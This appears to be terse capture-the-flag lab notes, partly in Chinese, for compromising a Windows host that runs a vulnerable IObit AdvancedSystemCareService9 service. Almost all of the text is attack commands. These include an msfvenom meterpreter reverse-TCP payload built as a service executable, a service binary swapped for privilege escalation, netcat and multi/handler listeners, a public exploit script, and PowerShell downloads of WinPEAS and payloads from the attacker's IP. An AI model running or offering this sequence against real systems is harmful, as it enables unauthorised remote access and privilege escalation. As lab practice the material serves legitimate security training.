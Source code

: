 		> show options
		> set RHOSTS 10.10.6.106
		> set RPORT 8080
		> set LHOST 10.11.92.230

		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
		> upload PowerUp.ps1
		> load powershell 
		> powershell_shell
		> . .\PowerUp.ps1
		> Invoke-AllChecks
			--> CanRestart 選項為 true，允許我們重新啟動系統上的服務
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		=> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.92.230 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
		> cd "Program Files (x86)"
		> cd IObit
		> upload Advanced.exe	
		> shell
		> sc stop AdvancedSystemCareService9
		> sc start AdvancedSystemCareService9	
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> sudo nc -lvnp 4443
			=> msfconsole -qx 'use exploit/multi/handler;set lhost 10.11.92.230;set lport 4443;set payload windows/meterpreter/reverse_tcp;run'
		--> cd "/Users/Administrator/Desktop"
		--> type root.txt
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		powershell 和 winPEAS 
			--> reverse shell
				-->1. download netcat 靜態二進位 : 
					=> https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
					=> rename nc.exe
				-->2. 39161.py
					=> ip | port
					=> python2 39161.py 10.10.6.106 8080
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> connenct : 	
				-->3. nc -lvnp 4443
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> upload :
				--> 4.網頁伺服器
					--> python3 -m http.server --bind 0.0.0.0 80
					--> python3 -m SimplyHTTPServer 80
		
				--> 5. WinPEAS
					--> https://github.com/peass-ng/PEASS-ng/releases/tag/20230702-bc7ce3ac?ref=hailstormsec.com
					-->  c:> Invoke-WebRequest -URI $URL -OutFile $Path
						--> powershell -c "Invoke-WebRequest -URI http://10.11.92.230/winPEASx86.exe -OutFile WinPEAS.exe
							=> .\WinPEAS.exe
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> vuln :
				--> powershell -c "Get-Services"
				--> powershell -c "Invoke-WebRequest -URI http://10.11.92.230/Advanced1.exe -OutFile Advanced.exe
				--> sc stop AdvancedSystemCareService9
				--> sc start AdvancedSystemCareService9	
				